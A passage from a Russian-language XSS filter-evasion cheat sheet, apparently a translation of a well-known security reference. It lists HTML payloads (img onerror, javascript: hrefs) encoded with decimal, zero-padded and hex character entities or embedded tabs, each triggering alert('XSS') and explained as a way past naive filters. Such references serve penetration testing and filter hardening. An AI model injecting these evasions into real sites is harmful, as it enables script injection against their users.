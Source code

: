 ```html
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```

### Ссылки на десятичные версии символов HTML

Поскольку примеры XSS, в которых используется директива `javascript:` внутри тега `<IMG`, не работают в Firefox, этот подход использует десятичные ссылки на символы HTML в качестве обходного пути:

```html

 <a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">Click Me!</a>
```

### Десятичные ссылки на HTML-символы без завершающих точек с запятой

Это часто эффективно для обхода XSS-фильтров, которые ищут строку `&\#XX;`, поскольку большинство людей не знают о дополнении, которое может содержать в общей сложности до 7 цифровых символов. Это также полезно для работы с фильтрами, которые декодируют строки типа `$tmp\_string =\~ s/.\*\\&\#(\\ d+);.\*/$1/;`, в которых неправильно предполагается, что точка с запятой требуется для завершения строки, закодированной в HTML (это встречается в обычном режиме).:

```html
<a href="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">Click Me</a>
```

### Шестнадцатеричные ссылки на символы HTML без завершающих точек с запятой

Эта атака также применима к фильтру для строки `$tmp\_string=\~ s/.\*\\&\#(\\d+);.\*/$1/;`,, поскольку предполагается, что после символа фунта следует числовой символ - , что неверно для шестнадцатеричных символов HTML:

```html
<a href="&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29">Click Me</a>
```

### Встроенная табуляция

Такой подход разбивает атаку XSS:


```html
 <a href="jav	ascript:alert('XSS');">Click Me</a>
```


### Встроенная закодированная табуляция

Этот подход также может разбить атаку XSS:
